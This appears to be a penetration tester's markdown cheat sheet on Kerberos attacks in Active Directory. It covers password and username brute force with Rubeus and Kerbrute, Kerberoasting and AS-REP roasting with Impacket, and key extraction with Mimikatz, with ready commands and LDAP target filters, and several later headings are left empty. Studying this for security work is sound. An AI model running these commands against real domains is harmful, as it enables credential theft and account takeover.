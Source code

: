 # Brute Force
We can brute force username and password based on the errors that we get from kerberos.
- `KDC_ERR_PREAUTH_FAILED`: Incorrect password
- `KDC_ERR_C_PRINCIPAL_UNKNOWN`: Invalid username
- `KDC_ERR_WRONG_REALM`: Invalid domain
- `KDC_ERR_CLIENT_REVOKED`: Disabled/Blocked user
### Rubeus
```powershell
./rubeus.exe brute /password:<password> /noticket
```
### Kerbrute (go)
1. User Enumeration
```bash
./kerbrute userenum -d mydomain.local usernames.txt
```
2. Password brute-force
```bash
cat user_password.txt | ./kerbrute -d mydomain.local bruteforce -
```
### Kerbrute.py
```bash
python kerbrute.py -domain mydomain.local -users user.txt -passwords pass.txt -dc-ip <ip>
```
# Kerberoast
- ST can be requested by any user for any service if it's [[Active Directory/AD Concepts/Services#SPN|SPN]] is registered in the domain.
- STs are encrypted with the service account which runs the service.
- Hence, we can try to crack the password of the service user account.
- In case of managed service accounts, the password is of 120 characters and changes every month, hence it is not possible to crack their password.
- However, some services are run with normal user accounts, managed by people, that can have weak password.
- Kerberoast deals with service running under regular user accounts. We can get STs for the services and crack their password.
We can query for users with SPNs with LDAP module or AD-RSAT module
- LDAP
```ladp
(&(samAccountType=805306368)(servicePrincipalName=*))
```
- AD-RSAT
```powershell

```
Impacket's `GetUserSPNs.py` script can be used to query users with SPN and request STs for the service.
```bash
# This will search for SPNs, request STs for the same using supplied credentials and same the STs in "kerberoast.hash"
python GetUserSPNs.py 'mydomain.local@a.drdragon:Password!!' -dc-ip <ip> -outputfile kerberoast.hash
```
# AS-REPRoast
- In kerberos, pre-authentication is required for users. 
- Pre-Authentication is when a user sends the timestamp encrypted with it's kerberos key to request TGT (AS-REQ)
- In some cases, some users may have the `DONT_REQUIRE_PREAUTH` flag set. These users don't need to encrypt their timestamp with their kerberos key, hence anyone can create AS-REQ as that user and receive AS-REP encrypted with these users's key.
- AS-REProast involves impersonating these users and receiving the AS-REP. The AS-REP can be cracked offline to recover the password of the user.
- LDAP filter to query users without pre-authentication.
```ldap
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```
- Impacket's GetNPUsers.py script can be used to get the users without pre-authentication and get their AS-REP data.
```bash
GetNPUsers.py 'mydomain.local\drdragon:Password!!' --dc-ip -outputfile asrep-hashes.txt
```

# Pass the Key/Overpass the Hash
- To request a TGT, the user needs to send a timestamp encrypted with it's key.
- If we have a user's key, it can be used to request a TGT of the user.
- Kerberos keys are cached in `lsass` process. Can be extracted using [[Active Directory/Credential Dumping/Mimikatz|Mimikatz]]
```bash
sekurlsa::ekeys
```


# Golden Tickets
# Silver Tickets
# Kerberos Delegations
### Unconstrained Delegation
### Constrained Delegation
# Pass the Key